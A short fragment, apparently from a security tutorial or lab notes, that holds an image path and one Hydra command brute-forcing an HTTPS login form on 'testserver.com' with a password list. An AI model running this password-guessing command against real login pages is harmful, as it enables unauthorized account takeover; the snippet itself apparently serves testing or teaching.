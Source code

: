 hydra -l test_user -P password-list.txt testserver.com https-post-form "/login.aspx:loginName=^USER^&PASSWORD=^PASS^:S=Welcome"

